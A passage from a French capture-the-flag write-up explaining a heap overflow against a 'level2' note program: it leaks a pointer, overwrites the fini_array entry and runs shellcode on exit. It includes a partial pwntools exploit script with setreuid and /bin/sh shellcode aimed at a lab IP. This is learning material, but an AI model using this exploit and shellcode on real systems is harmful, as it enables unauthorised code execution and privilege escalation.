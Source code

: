 On observe qu'après le message `Goodbye` par défaut la fonction de bienvenue est effectivement affichée ! Success !

## Hammer time

Un readme laissé dans le dossier nous indique de faire l'exploitation en remote :

> Start this level with socat 'socat TCP4-listen:53121,reuseaddr,fork EXEC:./level2' and use netcat or whatever to communicate with it.

Ce sera une petite contrainte supplémentaire peut génante : socat se chargeant de rediriger les entrées / sorties du programme on peut donc utiliser un shellcode classique qui lance simplement un shell.

Maintenant voici le déroulement complet de mon code d'exploitation :

1. Crée une note 0 vide

2. Créé une note 1 vide

3. Ecrit dans la note 0 jusqu'à ce que le contenu du slot 1 (taille de 64 + adresse mémoire) y apparaisse (`memcpy` n'ajoute pas de octet NULL terminal donc les données seront simplement concaténées)

4. De cette manière on récupère l'adresse du `char *` de la note 1

5. On recommence le débordement sur la note 0 mais cette fois pour que le pointeur de la note 1 corresponde à `__do_global_dtors_aux_fini_array_entry`

6. On écrit dans la note 1 donc dans `__do_global_dtors_aux_fini_array_entry`. Ce qu'on écrit c'est l'adresse du pointeur de la note 1 que l'on a fuité

7. On rétablit la mémoire initiale du programme en écrasant l'adresse du pointeur de la note 1 par l'adresse qui avait été originalement allouée

8. On écrit dans la note 1 pour y placer notre shellcode car on connait l'adresse et on sait que la mémoire est exécutable

9. On appelle la commande `exit` ce qui appellera l'adresse de notre shellcode référencé dans `__do_global_dtors_aux_fini_array_entry`

Mon programme d'exploitation se base sur `pwntools` :

```python
from pwn import *
from struct import unpack, pack

setreuid_level2 = (
    b"\x31\xc0"          # xor    eax,eax
    b"\x31\xdb"          # xor    ebx,ebx
    b"\x66\xbb\xea\x03"  # mov    bx,0x3ea
    b"\x89\xd9"          # mov    ecx,ebx
    b"\xb0\x46"          # mov    al,0x46
    b"\xcd\x80"          # int    0x80
)

execve_bash = (
  # shellcode by Marco Ivaldi without setreuid 0
  # https://www.exploit-db.com/shellcodes/13458
  b"\xeb\x1d"
  b"\x5e\x88\x46\x07\x89\x46\x0c\x89\x76\x08\x89\xf3"
  b"\x8d\x4e\x08\x8d\x56\x0c\xb0\x0b\xcd\x80\x31\xc0"
  b"\x31\xdb\x40\xcd\x80\xe8\xde\xff\xff\xff/bin/sh"
)


p = remote("192.168.56.83", 53121)
p.readuntil("> ")
p.sendline(b"new")
p.readuntil("> ")
p.sendline(b"new")
```